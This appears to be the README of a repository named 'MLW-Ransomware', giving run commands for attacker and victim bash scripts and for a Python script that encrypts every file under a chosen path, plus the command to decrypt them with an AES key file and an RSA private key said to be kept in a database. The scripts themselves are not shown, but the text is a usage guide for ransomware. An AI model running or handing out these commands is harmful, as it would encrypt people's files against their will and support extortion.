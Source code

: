 # MLW-Ransomware
# How it Works
Run attack:
```
/bin/bash Bash/bashAttacker.sh
/bin/bash Bash/bashVictim.sh
```


Encrypt files:
```
python upcrans.py --encrypt --path .
```

Decrypt files:
```
python upcrans.py --decrypt --AESkey KEY.txt --RSAkey KEYRSA.txt
```
Where AESkey is the path generated when files are encrypted and RSAkey is the private key of RSA that is stored in BBDD.


